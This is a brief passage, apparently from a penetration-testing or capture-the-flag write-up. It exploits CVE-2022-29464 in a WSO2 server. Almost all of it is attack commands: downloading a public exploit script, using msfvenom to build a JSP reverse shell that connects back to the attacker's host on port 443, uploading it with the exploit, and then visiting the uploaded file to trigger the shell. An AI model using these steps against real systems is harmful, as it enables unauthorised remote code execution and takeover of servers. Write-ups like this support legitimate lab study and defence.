 ```
wget https://raw.githubusercontent.com/hakivvi/CVE-2022-29464/main/exploit.py
```
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw > reverse.jsp
```
```
python3 exploit.py https://$TARGET:9443 reverse.jsp
```
Next, we just visit:
`https://$TARGET:9443/authenticationendpoint/reverse.jsp`
